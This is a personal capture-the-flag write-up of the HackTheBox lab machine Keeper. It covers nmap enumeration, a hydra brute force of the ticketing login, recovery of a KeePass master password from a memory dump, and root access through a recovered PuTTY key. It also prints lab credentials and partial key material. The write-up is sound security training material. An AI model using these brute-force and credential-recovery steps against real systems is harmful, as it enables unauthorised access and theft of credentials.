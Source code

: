 # HackTheBox: [Keeper](https://app.hackthebox.com/machines/Keeper)

Not a complete walkthrough, only my notes.

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:13 CST
Nmap scan report for 10.10.11.227
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```

`curl` point me toward `tickets.keeper.htb`:

```console
$ curl -si $t
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 03 Oct 2023 18:14:39 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes

<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

I update `/etc/hosts` so that I may access the vhost:

```console
$ grep keeper /etc/hosts
10.10.11.227 tickets.keeper.htb
```

And:

![](_/htb-keeper-20231002-1.png)

I try `admin:admin` and capture the results using Burp:

![](_/htb-keeper-20231002-2.png)

## Exploitation

I'm able to brute-force the credentials `root:password`:[^1]

```console
$ hydra tickets.keeper.htb http-form-post "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect" -l root -P /usr/share/seclists/Passwords/cirt-default-passwords.txt
[...]
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-03 12:42:47
```

The `http://tickets.keeper.htb/rt/` ticketing interface has one ticket from a user who attached a memory dump from KeePass, a password manager utility.

![](_/htb-keeper-20231002-3.png)

Looking at the user data for the ticket requester, there is a default password:

![](_/htb-keeper-20231002-4.png)

These credentials work for `ssh` on the target:

```console
$ ssh lnorgaard@$t
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
e7880b[...]
```

## Privilege Escalation

The KeePass dump mentioned in the ticket is also available in the user's homedir:

```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Running [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) on the memory dump reveals most of the password:

```text
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Using Google, I'm able to find out that the fragment `M}dgrød med fløde` looks a lot like the phrase `Rødgrød med fløde`, a Danish food. This works, with a lowercase 'r': `rødgrød med fløde`. With that password I'm able to import data into the KeePass app:

![](_/htb-keeper-20231002-5.png)

`root` password: `F4><3K0nd!`…but it doesn't work for `ssh`.

The full KeePass data for `root` user:

```text
Group: Network, Title: keeper.htb (Ticketing Server), User Name: root, Password: ********, Creation Time: 5/19/2023 2:36:50 AM, Last Modification Time: 5/24/2023 4:48:21 AM

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
[...]
```

That key is in PPK format, and needs to be in a format suitable for OpenSSH.

```console
$ puttygen foo.ppk -O private-openssh -o id_rsa

$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
[...]
-----END RSA PRIVATE KEY-----

$ ssh -i id_rsa root@$t
[...]
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
fc94c7[...]
```
